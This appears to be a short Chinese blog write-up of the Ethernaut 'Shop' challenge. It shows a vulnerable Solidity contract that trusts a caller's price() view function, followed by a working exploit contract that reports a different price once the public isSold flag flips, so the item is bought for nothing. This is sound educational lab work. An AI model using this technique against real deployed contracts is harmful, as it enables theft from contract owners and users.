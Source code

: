 ```yaml
---
title: Ethernaut - Shop
categories: [Ethernaut]
tags: [以太坊, 智能合约, Ethernaut]
date: 2024-12-24
---
```


花更少的前买东西。

<!--more-->

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```

这跟上次一样啊？第一次调用返回1000，第二次调用返回100；





噢，等等，这次设置了 price 是 view 函数，不能修改状态。

但是也有办法，我们可以看gas来判断是第一次还是第二次。



又想复杂了，shop的isSold是public 的……

```solidity
pragma solidity ^0.8.0;


interface IShop {
    function isSold() external view returns (bool);
    function buy() external;
}

contract Buyer {
    address levelInstance;

    constructor(address _levelInstance) {
        levelInstance = _levelInstance;
    }

    function price() public view returns (uint256) {
        return IShop(msg.sender).isSold() ? 0 : 100;
    }

    function buy() public {
        IShop(levelInstance).buy();
    }
}
```

